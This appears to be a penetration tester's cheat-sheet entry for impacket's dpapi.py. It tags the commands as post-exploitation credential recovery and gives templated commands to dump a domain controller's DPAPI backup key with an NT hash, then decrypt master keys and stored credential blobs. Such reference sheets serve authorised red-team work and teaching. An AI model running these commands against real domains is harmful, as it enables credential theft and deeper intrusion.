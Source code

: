 # dpapi (imp)
% impacket-secrets, dpapi
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 

## desc
```
DAPPI offile decryption tool
```

## dump the domain backup key
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```bash
dpapi.py backupkeys --export -hashes <nt_hash>  -t  <domain_fqdn>/<user|Administrator>@<dc_ip>
```

## identify master key Guid
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```bash
dpapi.py unprotect -file <blob_file>
```

## decrypt master key (creds)
```bash
dpapi.py masterkey -file <master_key_file> -password <password> -sid <user_sid>
```

## decrypt blob (creds)
```bash
dpapi.py credential -file <blob_file> -key <decrypted_master_key>
```